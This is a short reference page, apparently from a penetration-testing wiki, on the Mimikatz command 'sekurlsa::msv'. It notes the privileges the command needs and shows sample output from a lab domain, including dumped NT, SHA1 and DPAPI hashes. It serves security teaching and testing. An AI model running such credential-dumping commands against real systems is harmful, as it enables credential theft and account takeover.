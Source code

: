 # msv

`sekurlsa::msv` dumps and lists the NT hash (and other secrets) by targeting the [MSV1\_0 Authentication Package](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package).

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::msv

Authentication Id : 0 ; 712960 (00000000:000ae100)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/26/2021 4:57:38 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427
        msv :
         [00000003] Primary
         * Username : MediaAdmin$
         * Domain   : hacklab
         * NTLM     : 35950fdc8d3d99b4136510414009662d
         * SHA1     : 185535108abf1fc0287dedbaff210b77989251c8
         * DPAPI    : 73006d59c6adcf27da6e097787a6d1f9
```
